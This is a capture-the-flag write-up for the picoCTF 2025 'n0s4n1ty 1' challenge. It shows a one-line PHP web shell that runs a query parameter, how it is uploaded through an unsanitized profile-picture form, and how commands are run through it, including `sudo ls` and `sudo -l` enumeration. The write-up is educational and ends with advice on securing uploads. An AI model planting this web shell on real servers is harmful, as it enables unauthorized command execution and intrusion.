

# n0s4n1ty 1



| Field | Details |
| --- | --- |
| Platform | picoCTF 2025 |
| Category | Web Exploitation |
| Difficulty | Easy |
| Status | Solved; final flag value was not recorded |
| Techniques | Unrestricted file upload, PHP web shell, command execution, `sudo` enumeration |

## Challenge

The site provides profile-picture upload functionality. The upload is not sanitized, so the objective is to turn it into server-side command execution and retrieve the flag from `/root`.

## Initial analysis

The challenge hints identify two important facts:

1. The file upload is not sanitized.
2. After obtaining a shell, check the current user's `sudo` permissions with `sudo -l`.

If the server accepts a `.php` file and then executes it from the uploads directory, an uploaded PHP script can expose a command parameter.

## Solution

### 1. Create a PHP command shell

Create `payload.php`:

```php
<?php system($_GET['mycommand']); ?>
```

This passes the `mycommand` query-string value to the operating system. It is intentionally unsafe and should only be used in an authorized CTF environment.

### 2. Upload the payload

Upload `payload.php` through the profile-picture form at the challenge instance:

```text
http://standard-pizzas.picoctf.net:57915/upload.php
```

The host and port belonged to a temporary picoCTF instance and may no longer be available.

### 3. Execute a command

The uploaded file was accessible under `/uploads/`. The source note records this request:

```text
http://standard-pizzas.picoctf.net:57915/uploads/payload.php?mycommand=sudo%20ls
```

The URL-decoded command is:

```bash
sudo ls
```

This confirms how commands were supplied to the PHP shell, but it does not by itself enumerate `sudo` permissions or show the contents of `/root`.

### 4. Enumerate `sudo` access and retrieve the flag

Following the challenge hint, the next command should be:

```bash
sudo -l
```

After identifying the permitted command, use it to list `/root` and read the discovered flag file. The source note states that the flag was recovered from `/root`, but it does not preserve the exact final command, filename, output, or flag value.

## Flag

<details>
<summary>Click to reveal the flag status</summary>

```text
Not recorded in the source note.
```

</details>

## Key takeaway

An upload feature must validate file types, rename uploads safely, store them outside executable web directories, and prevent the web server from executing user-controlled files. Once command execution is available in a CTF, enumerate privileges before attempting to access protected files.
